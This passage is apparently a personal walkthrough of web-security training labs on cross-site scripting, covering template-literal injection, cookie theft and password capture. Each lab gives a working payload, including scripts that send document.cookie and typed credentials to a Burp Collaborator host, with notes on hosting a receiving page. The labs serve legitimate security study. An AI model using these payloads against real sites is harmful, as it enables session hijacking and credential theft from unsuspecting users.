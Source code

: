 ```javascript
${alert(1)}
```

Methodology and explanation:

We start as usual by putting in a random string in search box. We can see that the message is between backticks \` \` . 

![](/assets/images/XSS/Pasted%20image%2020250726201718.png)

Upon looking up their significance, I saw that they can have 1. Multiline strings and 2. display a variable inside the string using ${variable name}. This is similar to f strings in python. We can just put the payload in the ${} and it should execute. 
### 22. Exploiting cross-site scripting to steal cookies

Payload that worked:

```html
<script>fetch('https://BURPID.oastify.com/?cookie=' + document.cookie);</script>
```

Methodology and explanation:

As always we first try to find a reflection point. The comments seemed to be reflected in a pair \<p\> tags. I tried putting in the alert(1) payload in script tags and it worked. 

![](/assets/images/XSS/Pasted%20image%2020250726232207.png)

Note: We can do this cookie stealing attack without burp collaborator, but we were forced to do it with it because of safety issues. Otherwise we can point the payload to a html page we host on a server which will execute a javascript file which will send us the cookies back. HTB Academy has a bunch of payloads and a practice lab where we can do this without collaborator. Anyways, I was making a mistake with quotes:

```html
<script>fetch('https://BURPID.oastify.com/?cookie=document.cookie');</script>
```

The `document.cookie` must be outside the URL quotes to work. The following payload should work. 

```html
<script>fetch('https://BURPID.oastify.com/?cookie=' + document.cookie);</script>
```
### 23. Exploiting cross-site scripting to capture passwords

Payload that worked:

```html
<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```

Methodology and explanation:

As the previous lab - `22. Exploiting cross-site scripting to steal cookies` the reflection point was in the comment section.
